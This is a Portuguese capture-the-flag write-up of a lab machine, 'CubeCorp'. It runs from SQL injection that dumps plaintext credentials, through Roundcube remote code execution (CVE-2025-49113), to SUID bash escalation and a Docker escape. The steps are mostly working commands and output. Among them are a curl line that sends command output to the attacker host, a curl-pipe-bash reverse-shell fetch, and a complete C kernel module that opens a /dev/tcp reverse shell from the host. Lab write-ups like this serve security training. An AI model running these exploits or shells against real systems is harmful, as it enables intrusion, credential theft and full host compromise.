SQL Injection expõe credenciais e subdomínios. Roundcube vulnerável à CVE-2025-49113 permite RCE via e-mail malicioso.
Escalada via SUID no bash dentro do container, seguida de Docker escape explorando
cap_sys_module com kernel module malicioso.
bash$ bash ~/tools/enumport/script.sh 172.16.1.145
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.12
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: CubeCorp - Transforming the future of business
bash$ echo '172.16.1.145 cubecorp.hc' | sudo tee -a /etc/hosts
Ao acessar a porta 80, identificamos uma aplicação corporativa. Detectamos que o parâmetro search era potencialmente vulnerável a SQL Injection. A enumeração de diretórios não revelou vetores adicionais.

Confirmada a injeção no parâmetro search, utilizamos o SQLMap para enumerar o banco:
bash$ sqlmap -u "http://cubecorp.hc/?page=careers&search=" -p search \
--dbs --level 5 --risk 3 --batch --threads 10

bash$ sqlmap -u "http://cubecorp.hc/?page=careers&search=" -p search \
-D cubecorp_branches --tables --level 5 --risk 3 --batch --threads 10
Database: cubecorp_branches
[2 tables]
+----------+
| branches |
| users |
+----------+
bash$ sqlmap -u "http://cubecorp.hc/?page=careers&search=" -p search \
-D cubecorp_branches -T users --dump --batch --threads 10
+-----------------------+-------------+---------------------+
| domain | username | password |
+-----------------------+-------------+---------------------+
| cubecorp.hc | admin | sup3r_s3cr3t |
| roundcube.cubecorp.hc | roundcube | b0ns01r |
| backup.cubecorp.hc | backup_user | b4ckup_2024! |
| api.cubecorp.hc | api_service | ap1_k3y_v3ry_s3cr3t |
| db.cubecorp.hc | dbadmin | db_p4ssw0rd_2024 |
+-----------------------+-------------+---------------------+

A coluna domain revela subdomínios da aplicação. Credenciais armazenadas em texto claro — sem hash. O subdomínio roundcube.cubecorp.hc é especialmente interessante.
Validamos os subdomínios via vhost fuzzing:
bash$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u http://cubecorp.hc -t 50 --append-domain --no-error
Found: roundcube.cubecorp.hc Status: 200 [Size: 5327]
bash$ echo '172.16.1.145 roundcube.cubecorp.hc' | sudo tee -a /etc/hosts

Autenticamos com as credenciais extraídas (roundcube:b0ns01r) e identificamos a versão exata do Roundcube instalado.

Vulnerabilidade de Remote Code Execution no Roundcube explorável via e-mail malicioso. Ao visualizar a mensagem, o payload é processado e executa comandos arbitrários no servidor sem interação adicional do usuário.
Referência: HakaiSecurity — CVE-2025-49113
Clonamos o exploit público e executamos a prova de conceito com o comando id:
bash$ php CVE-2025-49113.php http://roundcube.cubecorp.hc roundcube b0ns01r \
'curl http://10.0.15.12/$(id | base64 -w0)'


Com RCE confirmado, geramos o payload via reverse-shell.sh, servimos via Python e executamos remotamente:
bash$ php CVE-2025-49113.php http://roundcube.cubecorp.hc roundcube b0ns01r \
'curl http://10.0.15.12/$(curl 10.0.15.12/shell|bash)'


Nota: para shell interativa utilizamos o Penelope.
Identificamos que estávamos dentro de um container. A senha extraída do banco (b0ns01r) foi reutilizada no SO, permitindo movimentação lateral para o usuário roundcube.

Enumeramos binários com permissão SUID:
bash$ find / -perm -4000 -ls 2>/dev/null
-rwsr-xr-x 1 root root 1446024 Mar 31 2024 /usr/bin/bash ← SUID!

bash$ /usr/bin/bash -p
bash-5.2# whoami
root
Referência: GTFOBins — bash SUID
Obtida no diretório do usuário comprometido dentro do container

Executamos o LinPEAS para identificar vetores de escape:
bash$ wget http://10.0.15.12/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
O LinPEAS identificou Linux Capabilities críticas atribuídas ao container:
cap_sys_admin, cap_sys_module, cap_sys_ptrace, cap_sys_chroot — com cap_sys_module é possível carregar um módulo de kernel malicioso que executa no contexto do host.
Referência: Cybereason — Container Escape via Capabilities
Criamos o módulo de kernel malicioso em C que dispara uma reverse shell no host:
c — rootkit.c#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>
MODULE_LICENSE("GPL");
static int start_shell(void) {
char *argv[] = {
"/bin/bash", "-c",
"bash -i >& /dev/tcp/10.0.15.12/9002 0>&1",
NULL
};
static char *envp[] = {
"HOME=/", "TERM=linux",
"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL
};
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}
static int __init init_mod(void) { return start_shell(); }
static void __exit exit_mod(void) {}
module_init(init_mod);
module_exit(exit_mod);
makefileobj-m += rootkit.o
all:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
Transferimos os arquivos para o container e compilamos:
bash# make
make -C /lib/modules/6.8.0-1029-aws/build M=/tmp modules
CC [M] /tmp/rootkit.o
LD [M] /tmp/rootkit.ko
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1029-aws'

Carregamos o módulo com insmod:
bash# insmod rootkit.ko

Obtida em /root/root.txt no host hospedeiro após escape do container via kernel module